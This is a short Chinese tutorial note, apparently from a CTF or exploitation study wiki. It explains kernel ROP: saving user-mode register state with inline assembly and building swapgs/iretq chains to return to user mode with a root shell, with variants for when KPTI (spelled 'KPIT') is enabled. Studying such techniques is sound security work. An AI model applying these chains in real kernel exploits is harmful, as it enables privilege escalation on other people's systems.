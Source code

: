 # 内核ROP

## 内核态ROP与用户态ROP

内核ROP和用户态的ROP原理都是一样的，不同的是，内核在通过ROP提权后，需要手动返回用户态

## ROP提权方法

详情见[提权](./提权.md)

## ROP返回用户态

返回用户态需要提前保存用户态的 `ss`, `sp`, `rflag`, `cs`

可以使用如下代码保存

```C
u64 user_cs, user_rflags, user_sp, user_ss;
void kernel_save_status()
{
    asm volatile(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;");
}
```

需要注意的是，在返回用户态执行 system() 函数时同样有可能遇到栈不平衡导致函数执行失败并最终 Segmentation Fault 的问题，因此在本地调试时若遇到此类问题，则可以将 user_sp 的值加减 8 以进行调整。

### 未开启KPIT保护

部署ROP链:

```
swapgs
iretq
user_shell_addr
user_cs
user_rflags
user_sp
user_ss
```

### 开启KPIT保护

部署ROP链:

```
swapgs_restore_regs_and_return_to_usermode
0
0
user_shell_addr
user_cs
user_rflags
user_sp
user_ss
```

或者提前在用户态设置信号处理函数 `signal(SIGSEGV, kernel_shell);` 然后直接部署 `swapgs;iretq` 如下:

```
swapgs
iretq
user_shell_addr
user_cs
user_rflags
user_sp
user_ss
```

详情见[检测或绕过KPIT.md](./检测或绕过KPIT)